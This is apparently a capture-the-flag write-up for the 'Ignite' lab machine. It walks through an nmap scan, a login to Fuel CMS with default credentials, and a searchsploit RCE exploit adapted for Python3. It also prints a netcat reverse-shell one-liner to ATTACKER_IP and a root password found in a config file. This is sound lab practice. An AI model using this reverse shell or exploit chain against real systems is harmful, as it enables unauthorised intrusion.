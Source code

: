 ```yaml
---
title: "Ignite"
tags:
  - Easy
  - Linux
  - nmap
  - fuelcms
  - SQLi
---
```


| Difficulty |
| ---------- |
|   Easy     |

---

### [ User.txt ]

Firstly, let's run a basic **Nmap** scan (top 1000 common ports) on the machine:

```
sudo nmap -sC -sV -vv 10.10.162.4
```

![screenshot1](../assets/images/ignite/screenshot1.png)

From the results, we can see that only port **80** is open, serving **Apache httpd 2.4.18**. An interesting thing to note is that there is a disallowed entry **'/fuel/'** in the **robots.txt** file.

Navigating to the HTTP website, we see a **Fuel CMS** webpage:

![screenshot2](../assets/images/ignite/screenshot2.png)

I first looked at the source code of the site, but there weren't any useful comments or information that was left behind by the developer. 

Next, I noticed something interesting at the bottom of the page:

![screenshot3](../assets/images/ignite/screenshot3.png)

It seems that the default admin credentials for Fuel CMS is **admin:admin**! Furthermore, the admin page for Fuel can be found in **/fuel**. Visiting /fuel brings us to a login page:

![screenshot4](../assets/images/ignite/screenshot4.png)

I tried using the default credentials (admin:admin) and was able to log in! We are then brought to an administrative dashboard:

![screenshot5](../assets/images/ignite/screenshot5.png)

Clicking on "**Click here for your site documentation**", we can see that the site is running **FUEL CMS 1.4**:

![screenshot6](../assets/images/ignite/screenshot6.png)

With the knowledge of the version number, let's try searching for an exploit using `searchsploit`. The command used is:

```
searchsploit fuel 1.4
```

![screenshot7](../assets/images/ignite/screenshot7.png)

The second exploit provides a Python script that allows us to gain remote code execution (RCE) on the machine. Let's use it!

![screenshot14](../assets/images/ignite/screenshot14.png)

Seems like we just have to change the `url` to the victim's IP address. Also, note that the code runs the connection through Burp Proxy, which we will remove as we are not using any proxy. Finally, to allow for compatibility with Python3, I had to make the following changes:

`raw_input()` to `input()`

`quote()` to `urllib.parse.quote()` (make sure to import urllib.parse)

`print r.text[0:dup]` to `print(r.text[0:dup])`

The modified script looks like this:

![screenshot15](../assets/images/ignite/screenshot15.png)

Running the exploit with a simple `whoami` command, we can see that it works:

![screenshot16](../assets/images/ignite/screenshot16.png)

Now, we'll try setting up a **reverse shell**. Using **pentestmonkey's** [reverse shell cheatsheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet), I found one that worked:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER_IP 1234 >/tmp/f
```

Running this command using the exploit allowed us to gain access into our target machine:

![screenshot18](../assets/images/ignite/screenshot18.png)

**user.txt** can be found in www-data's **home** directory.

---

### [ Root.txt ]

To enumerate any potential privesc vectors, we'll use [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS), a privilege escalation automation script. This will help speed up the enumeration process. 

Looking through linpeas' results, we come across an interesting configuration file: **/var/www/html/fuel/modules/views/settings.php**:

![screenshot20](../assets/images/ignite/screenshot20.png)

Exploring this file yielded nothing of interest. However, I decided to look around its neighbouring directories and files. 
After searching for a long time, I finally found a file called **database.php**, located in **/var/www/html/fuel/application/config/**, that had the **root** password inside:

![screenshot21](../assets/images/ignite/screenshot21.png)

The root password is: **mememe**

With the root password, we can then log in as root and obtain **root.txt** located in **/root**.

---

### [ Extra: Interactive Shells ]

When I was trying to log in using `su root`, an error **"must be run from a terminal"** kept popping up, disallowing me from logging in. Doing some research, this seems to be because the shell spawned from our reverse shell code is a **non-interactive** shell, and not a fully-interactive TTY shell.

In order to upgrade the shell, we can use Python:

![screenshot22](../assets/images/ignite/screenshot22.png)

This command upgrades our shell to a more functional one that is similar to our terminal on our local machine. We can then `su` into the root account.

![screenshot23](../assets/images/ignite/screenshot23.png)
